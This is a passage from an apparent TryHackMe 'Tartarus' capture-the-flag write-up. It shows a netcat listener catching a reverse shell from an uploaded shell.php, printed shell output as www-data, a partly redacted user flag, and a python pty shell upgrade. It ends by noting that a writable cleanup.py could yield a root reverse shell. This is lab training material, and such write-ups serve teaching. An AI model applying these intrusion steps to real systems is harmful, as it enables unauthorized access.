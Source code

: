 Now I start my netcat listener ready for my shell (hopefully).

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
```

![uploaded](/assets/images/tartarus/uploaded.png)

File uploaded.

![shell](/assets/images/tartarus/shell.png)

As expected the shell.php script was uploaded to /images/uploads/

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.30.144] 52738
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:18:28 up  1:10,  0 users,  load average: 0.10, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now we have a shell I will go hunting for the user flag.

```highlight
$ cd /home
$ ls
cleanup
d4rckh
thirtytwo
$ cd d4rckh
$ ls
cleanup.py
user.txt
$ cat user.txt
0f7dbb2243e692e<HIDDEN>
```

Ive redacted half the flag. Now its time to get root!

### Priv Esc

First I upgrade my shell.

```highlight
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

In d4rckh home directory is a python script cleanup.py. Even as www-data you can edit that file and use it to get a reverse shell as root. However I don't believe this is the indented path just yet, first we need to become the d4rckh user. 
